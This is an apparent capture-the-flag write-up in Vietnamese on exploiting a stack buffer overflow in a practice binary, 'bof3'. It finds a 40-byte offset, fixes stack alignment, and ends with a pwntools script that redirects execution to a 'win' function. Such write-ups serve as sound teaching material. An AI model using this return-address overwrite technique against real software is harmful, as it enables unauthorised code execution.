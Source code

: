 ![image](https://github.com/user-attachments/assets/749b0f09-acb9-484e-b970-1dfbe1737059)![image](https://github.com/user-attachments/assets/362d5b7d-e00d-4587-8c27-dec937e15652)![image](https://github.com/user-attachments/assets/eaa2aa7a-3e7a-4bb8-b9c4-e58b44e2160a)![image](https://github.com/user-attachments/assets/38ede511-12c4-4a7e-bb71-22f1213fa4df)
* Đầu tiên đọc code ta thấy biến buf khai báo 28 byte nhưng lại nhập vào tận 48 byte như vậy ta có lỗi Buffer_Overflow ở đây
![image](https://github.com/user-attachments/assets/cfa7f7d3-0cdd-4e6f-85bd-a2e33beb0b55)
* Đặt break_point tại hàm read hàm read.
* Hàm read cho chúng ta nhập vào 48 byte nên chúng ta thử nhập 48 byte coi nó tràn được đến đâu
![image](https://github.com/user-attachments/assets/5510eef0-4053-487f-b6d6-51bdbea2d339)
![image](https://github.com/user-attachments/assets/2b2e509b-0f3c-4706-9c7a-b210ecbad575)
* Đi đến hàm return ta thấy nó đã ơverdrive đến địa chỉ 0x6161616161616166
* ![image](https://github.com/user-attachments/assets/a59f5be2-113e-40c8-bde4-24f612a2648d)
* Vậy bây giờ mình cần tìm offset nó để overdrive đến cái mình muốn
![image](https://github.com/user-attachments/assets/33edd7a4-ce5c-4ce8-8f18-013afcdf0985)
* Offset ở đây là 40
* ![image](https://github.com/user-attachments/assets/068083de-69cb-424f-865e-7b75ea204706)
* Thử viết payload để overdrive nó nhưng ở đây chúng ta gặp lỗi EOF
![image](https://github.com/user-attachments/assets/2cabc139-b0b4-41bb-91cd-baa8e6deca20)
* Tìm địa chỉ của hàm return để đặt breakpoint địa chỉ là 0x0000000000401248
![image](https://github.com/user-attachments/assets/5a531574-4aaf-4d9c-a1f0-20bde0f7bc5e)
* Hàm tiếp theo đã được thực thi hàm tiếp theo nó nhảy vào là hàm win địa chỉ 0x00007fffc7249058
* ![image](https://github.com/user-attachments/assets/151f421e-cd10-4010-9016-4ca99a58e092)
* Chạy tiếp chúng ta gặp lỗi, lỗi này là do địa chỉ stack ko chia hết cho 16
![image](https://github.com/user-attachments/assets/28f1070d-7819-4536-a04b-4272495eb02c)
* Như vậy ta cần đưa nó đến byte chia hết cho 16 như vậy payload là :
<pre>
  from pwn import *
 
p = process('./bof3')

exe = ELF("./bof3")

payload = b'A'*40
payload += p64(exe.sym['win'] + 5)
p.sendafter(b'> ',payload)

p.interactive()

</pre>
